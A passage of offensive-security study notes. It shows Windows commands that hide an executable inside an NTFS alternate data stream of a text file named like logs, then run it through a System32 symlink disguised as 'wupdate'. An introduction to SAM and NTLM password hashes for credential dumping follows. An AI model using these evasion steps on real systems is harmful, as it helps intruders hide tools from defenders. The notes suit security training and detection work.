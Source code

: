 
```bash
cmd >dir /r

01/20/2024  11:09 PM    <DIR>          .
01/20/2024  11:09 PM    <DIR>          ..
01/20/2024  11:06 PM                12 hello.txt
                                    11 hello.txt:hidden.txt:$DATA
               1 File(s)             12 bytes
               2 Dir(s)  146,176,573,440 bytes free

```



**hide exe payload in text file**

```cmd
C:\Temp >type payload.exe > windowslogs.txt:winpeas.exe
```



**Create symbolic link and execute the exe file **

windows update (wupdate) is just a symbolic link for the exe file we want to run.

open cmd as an administrator

```cmd
C:\Windows\System32 > mklink wupdate.exe C:\Temp\windowslogs.txt:winpeas.exe

execute the symlink
C:\Windows\System32 > wupdate
```



---

### Windows Credential Dumping

#### Windows Password Hashes    

- The Windows OS stores hashed user account passwords locally in the SAM (Security Accounts Manager) database.

- Hashing is the process of converting a piece of data into another value. A hashing function or algorithm is used to generate the new value. The result of a hashing algorithm is known as a hash or hash value.

- Authentication and verification of user credentials is facilitated by the Local Security Authority (LSA).

- Windows versions up to Windows Server 2003 utilize two different types of hashes:

  + LM

  + NTLM • Windows disables LM hashing and utilizes NTLM hashing from Windows Vista onwards


